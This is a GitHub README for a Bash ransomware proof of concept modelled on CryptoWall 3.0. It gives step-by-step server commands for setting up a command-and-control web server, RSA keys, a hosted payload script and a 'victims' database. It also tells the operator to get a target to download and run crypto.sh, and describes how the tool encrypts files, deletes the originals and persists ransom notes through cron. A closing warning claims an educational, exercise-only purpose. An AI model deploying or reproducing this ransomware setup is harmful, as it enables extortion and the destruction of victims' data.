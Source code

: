 # Bash Ransomware

## Synopsis
 Simple Bash POC cryptoware that is modeled after CryptoWall 3.0

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)
 - apache2 

## Notes
 - Added instructions to set up secure communications over HTTPS
 - Python and C versions of the BashCrypt are currently in development and should be released in the near future
 - Windows executable and powershell versions are also in development
 - You may notice that the configuration is insecure (e.g. - no db password, processes running as root, etc.). This is just for testing purposes in my dev environment. If you use this in an exercise, you will want to follow best practices to secure the C2 server
 - The codebase uses newer versions of software, like PHP. You may run into environments with older versions of PHP that do not support some of the built-in PHP functions. In this case, you will have to modify the code. Specifically, I ran into a PHP version < 5.2 and the DateTime function. To resolve this, I used srtotime("now") to get the Linux Epoch time and the date function, date('Y-m-d H:i:s'), to resolve this. To resolve this, you can use something similar to the following: date('Y-m-d H:i:s', strotime("now"));

## What to do on the server-side
 - > Configure your comms over HTTPS
 - > Sample certs are in the sample_apache_conf directory
 - $ openssl genrsa -des3 -passout pass:neveruseinsecurepasswords -out server.pass.key 4096
 - $ openssl rsa -passin pass:neveruseinsecurepasswords -in server.pass.key -out server.key 
 - $ openssl req -new -key server.key -out server.csr
 - $ openssl x509 -req -days 4096 -in server.csr  -signkey server.key -out server.crt
 - $ chmod 600 server.*
 - $ mkdir /etc/ssl/certs/
 - $ mv server.key /etc/ssl/certs/
 - $ mv server.crt /etc/ssl/certs/
 - > Use the sample apache SSL and Default configurations in sample_apache_conf as a guide
 - > Then configure your apache to redirect HTTP traffic to HTTPS
 - > Enable SSL
 - $ a2enmod ssl
 - $ servive apache2 restart

 - > Start Crypto Setup
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - > Modify crypto.sh and replace the IP with your web server's IP/URL
 - $ sed -i 's/192\.168\.1\.132/YYY\.YYY\.YYY\.YYY/g' crypto.sh # Where YYY.YYY.YYY.YYY is your IP
     OR
 - $ sed -i 's/192\.168\.1\.132/www\.yourdomain\.com/g' crypto.sh
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, count.php, and target.php with your database information
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), file_count int not null, curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key from our server 
 - Generates a key file on the target
 - Loops through the system for files with the defined extensions and Uses AES-256 to encrypt the files on the system using the generated key
 - Deletes the original file, leaving only the encrypted file
 - The key file is then encrypted using the public key (RSA-4096)
 - Prints a ransom message and then persists that message through cron
 - In each dir, an INSTRUCTIONS.txt file is created and contains the ransome message
 - Links to a web page where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Create unique private/public key-pair per victim
 - Move DB settings into a common.php file and refer to that file in each of the scripts (One place to edit instead of numerous places)
 - Add in error handling for non-existing files
 - Add Screenshots

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes. This tools intended use is in cyber exercises or demonstrations of adversarial tools.

## Screenshots

   - Infected: <br />
   ![Infected](/screenshots/infected.jpg?raw=true "Infected") <br />
   - Decrypt: <br />
   ![Decrypt](/screenshots/decrypt_page.jpg?raw=true "Decrypt") <br />
   - Countdown: <br />
   ![Countdown](/screenshots/time_countdown.jpg?raw=true "Countdown") <br />
   - Admin: <br />
   ![Admin](/screenshots/admin_portal.jpg?raw=true "Admin") <br />
